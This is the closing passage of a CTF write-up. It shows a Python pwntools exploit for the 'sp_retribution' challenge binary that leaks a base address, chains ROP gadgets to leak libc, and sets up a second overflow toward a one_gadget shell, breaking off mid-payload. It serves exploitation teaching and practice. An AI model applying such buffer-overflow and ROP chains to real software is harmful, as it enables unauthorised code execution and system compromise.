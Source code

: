 We got it! 🙂

And this is the final exploit:

````python
from pwn import *

# Get function offsets
e = ELF("./sp_retribution", False)
missile_launcher_offset = e.symbols["missile_launcher"]
puts_plt_offset = e.symbols["plt.puts"] # = sym.imp.puts
puts_got_offset = e.symbols["got.puts"] # = reloc.puts
pop_rdi_offset = 0xd33

# Get libc offsets
libc = ELF("./glibc/libc.so.6", False)
libc_puts_offset = libc.symbols["puts"]
one_gadget_offset = 0xf1247 # found by the one_gadget tool

# start the program
r = process("./sp_retribution")

# go to option 2.
r.recvrepeat(0.2)
r.sendline(b'2')
r.recvrepeat(0.1)

# input just 1 char and receive until right before the leaked bytes
r.sendline(b'a')
r.recvuntil(b'y = a\x0a')

# receive the 4 bytes from the leaked address and convert to an int
leak = r.recv(4)
baseaddr = int.from_bytes(b'\x00\x00' + leak, byteorder='little')

# calculate addresses based on leaked base address
missile_launcher_address = baseaddr + missile_launcher_offset
puts_plt_address = baseaddr + puts_plt_offset
puts_got_address = baseaddr + puts_got_offset
pop_rdi_address = baseaddr + pop_rdi_offset

# send payload to overwrite the return address and jump back to missile_launcher()
r.recvrepeat(0.1)
payload = b'A'*88
payload += p64(pop_rdi_address)
payload += p64(puts_got_address)
payload += p64(puts_plt_address)
payload += p64(missile_launcher_address)
r.sendline(payload)

# receive bytes until right before the leaked libc address
r.recvuntil(b'[1;34m\n')
# read the leaked address and calculate the libc base address and the address of our one gadget
leak = r.recv(6)
libc_puts_address = int.from_bytes(leak, byteorder='little')
libc_base_address = libc_puts_address - libc_puts_offset
one_gadget_address = libc_base_address + one_gadget_offset

# receive remaining bytes and send anything for the "Insert new coordinates" prompt
r.recvrepeat(0.1)
r.sendline(b'a')
r.recvrepeat(0.1)

# trigger the 2nd buffer overflow and return to the one gadget to start a shell
payload = b'A'*88
````